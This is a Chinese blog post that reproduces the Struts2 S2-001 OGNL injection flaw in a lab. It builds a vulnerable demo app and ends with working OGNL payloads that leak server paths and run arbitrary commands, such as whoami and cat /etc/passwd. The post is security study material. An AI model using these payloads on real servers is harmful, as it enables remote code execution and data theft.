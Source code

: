 ```yaml
---
title: Struts2Vuls之S2-001漏洞复现与简要分析
tags:
  - Struts2
  - RCE
date: 2018-03-28 22:34:58
toc: true
talk: true
---
```


最近经历了几次面试，深觉在企业中，java安全是十分受重视的，于是打算对java安全进行深入学习，本系列是对Struts2的漏洞进行分析与复现，写的不好欢迎大家指出问题，本文所有源码与poc&exp：https://github.com/xishir/Struts2Vuls/tree/master/S2-001
<!-- more -->

# 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 简要原理
在默认配置下，如果用户所提交的表单出现`验证错误`，后端会对用户的输入进行`解析处理`，然后返回并`显示处理结果`。  举个例子，当你提交的登录表单为`username=xishir&password=%{1+1}`时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示`%{1+1}`的解析结果`2`，从而可以构造payload进行RCE。

# 环境搭建
### 下载struts-2.0.1
地址：http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip
### 创建web工程
目录结构
![](/img/s2/s2-001-1.png)
这里我是用的是MyEclipse，创建一个web工程，然后将struts-2.0.1中的几个jar包导入并新建如下几个文件
web.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" id="WebApp_ID" version="3.1">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
```

index.jsp
```html
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>S2-001</title>
</head>
<body>
<h2>S2-001 Demo</h2>
<p>link: <a href="https://cwiki.apache.org/confluence/display/WW/S2-001">https://cwiki.apache.org/confluence/display/WW/S2-001</a></p>
<s:form action="login">
	<s:textfield name="username" label="username" />
	<s:textfield name="password" label="password" />
	<s:submit></s:submit>
</s:form>
</body>
</html>
```

welcome.jsp
```html
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>S2-001</title>
</head>
<body>
<p>Hello <s:property value="username"></s:property></p>
</body>
</html>
```

struts.xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
    "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
    "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
	<package name="S2-001" extends="struts-default">
		<action name="login" class="com.demo.action.LoginAction">
			<result name="success">welcome.jsp</result>
			<result name="error">index.jsp</result>
		</action>
	</package>
</struts>
```

com.demo.action.LoginAction.java
```java
package com.demo.action;

import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
	private String username = null;
	private String password = null;

	public String getUsername() {
		return this.username;
	}

	public String getPassword() {
		return this.password;
	}

	public void setUsername(String username) {
		this.username = username;
	}

	public void setPassword(String password) {
		this.password = password;
	}

	public String execute() throws Exception {
		if ((this.username.isEmpty()) || (this.password.isEmpty())) {
			return "error";
		}
		if ((this.username.equalsIgnoreCase("admin"))
				&& (this.password.equals("admin"))) {
			return "success";
		}
		return "error";
	}
}
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](/img/s2/s2-001-2.png)

### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](/img/s2/s2-001-3.png)

# 参考链接
[https://cwiki.apache.org/confluence/display/WW/S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
[http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html)
[https://github.com/vulhub/vulhub/tree/master/struts2/s2-001](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)
[https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/](https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/)